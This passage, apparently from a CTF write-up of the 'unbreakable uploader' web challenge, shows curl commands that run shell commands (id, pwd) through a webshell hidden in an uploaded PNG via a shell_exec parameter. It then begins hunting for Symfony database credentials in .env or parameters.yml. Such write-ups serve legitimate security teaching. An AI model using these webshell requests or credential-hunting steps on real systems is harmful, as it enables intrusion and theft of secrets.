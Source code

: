 Now, we are going to exploit the RCE using this command

``
curl -i -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=id"
``

And we got a nice result

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/15.PNG"/>
</p>

Now, let's find out the database credentials a step by step.

We get the current location

``
curl -i -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=pwd"
``

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/16.PNG"/>
</p>

So this is a Symfony project. A quick search on google gives up where we can find the database credentials from configuration files.

If the `.env` file exists, if should be there. Otherwise it should be on `app/config/parameters.yml`.
